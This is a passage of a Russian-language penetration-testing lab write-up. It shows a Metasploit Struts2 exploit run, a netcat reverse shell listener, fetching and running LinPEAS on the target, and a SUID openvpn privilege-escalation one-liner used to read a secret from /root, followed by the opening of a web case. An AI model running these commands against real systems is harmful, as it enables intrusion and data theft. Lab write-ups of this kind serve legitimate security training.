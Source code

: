 5. Выставил послушивание порта `9004` через утилиту `nc`, запустил работу эксплойта:

    *Вкладка терминала 1*

    ```
    msf6 exploit(multi/http/struts2_code_exec_showcase) > run
    ```

    *Вкладка терминала 2*

    ```
    ~$ nc -nlvp 9004
    listening on [any] 9004 ...
    connect to[<attacker ip>] from (UNKNOWN) [<target ip>] 51076
    sh: 0: can't access tty; job control turned off

    $ id
    uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
    ```

    В результате использования эксплойта был получен шелл для пользователя `tomcat`

6. Произвел скачивание и запуск скрипта для поиска уязвимостей `LinPEAS` на атакуемом сервере:

    ```
    $ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250601-88c7a0f6/linpeas.sh

    $ chmod 755 linpeas.sh
    
    $ ./linpeas
    ```

    При анализе вывода скрипта `LinPEAS`, была обнаружена утилита с `SUID`-бит `/usr/sbin/openvpn`.

7. На ресурсе `GTFOBins` нашел команду для локального повышения привилегий, вследствие исполнения команды получил эффективный ip пользователя `root` `euid=0` и увел данные из `/root/<secret>`

    ```
    $ /usr/sbin/openvpn --dev null --script-security 2 --up '/bin/sh -p -c "sh -p"'
    
    # id
    uid=1000(tomcat) gid=1000(tomcat) euid=0(root) groups=1000(tomcat)

    # find /root/ -name <secret> 2>/dev/null

    cat /root/<secret>
    ```

### Кейс Web

**Задача**

* Получить доступ к серверу веб-приложения

* Получить доступ к ресурсу `company.local`, находящемся во внутренней сети, и увести опреленный секрет из файловой системы сервера
